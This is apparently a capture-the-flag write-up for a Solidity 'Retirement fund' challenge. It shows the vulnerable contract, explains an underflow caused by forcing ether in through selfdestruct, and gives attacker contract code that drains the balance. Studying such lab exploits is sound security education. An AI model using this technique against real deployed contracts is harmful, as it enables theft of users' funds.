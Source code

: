# Retirement fund

```
pragma solidity ^0.4.21;

contract RetirementFundChallenge {
  uint256 startBalance;
  address owner = msg.sender;
  address beneficiary;
  uint256 expiration = now + 10 years;

  function RetirementFundChallenge(address player) public payable {
    require(msg.value == 1 ether);

    beneficiary = player;
    startBalance = msg.value;
  }

  function isComplete() public view returns (bool) {
    return address(this).balance == 0;
  }

  function withdraw() public {
    require(msg.sender == owner);

    if (now < expiration) {
      // early withdrawal incurs a 10% penalty
      msg.sender.transfer(address(this).balance * 9 / 10);
    } else {
      msg.sender.transfer(address(this).balance);
    }
  }

  function collectPenalty() public {
    require(msg.sender == beneficiary);

    uint256 withdrawn = startBalance - address(this).balance;

    // an early withdrawal occurred
    require(withdrawn > 0);

    // penalty is what's left
    msg.sender.transfer(address(this).balance);
  }
}
```

## Goal

Withdraw all the ETH from the smart contract

## Exploit

In order to finish this CTF we will have to use another smart contract. We can name this contract Attacker.

We will sefdestruct the Attacker contract and send the ether in the Attacker to the RetirementFundChallenge contract.

This will cause the following calculation to underflow:

```
  uint256 withdrawn = startBalance - address(this).balance;
```

and calling collectPenalty() will allow us to withdraw all the funds from RetirementFundChallenge contract

To exploit the contract we need to:

1. create Attacker contract, and send the address of the RetirementFundChallenge contract inside the Attacker contract, make the contructor payable and send some ETH to on Attacker creation (0.0001 eth for example)
2. create attack() external function inside Attacker, and call the selfdestruct() function with the address of the RetirementFundChallenge as argument
3. call collectPenalty() from RetirementFundChallenge contract

## Attacker contract code

```
contract Attacker {
  address private fund;

  function Attacker(address _fund) public payable {
    fund = _fund;
  }

  function attack() external {
    selfdestruct(fund);
  }
}
```
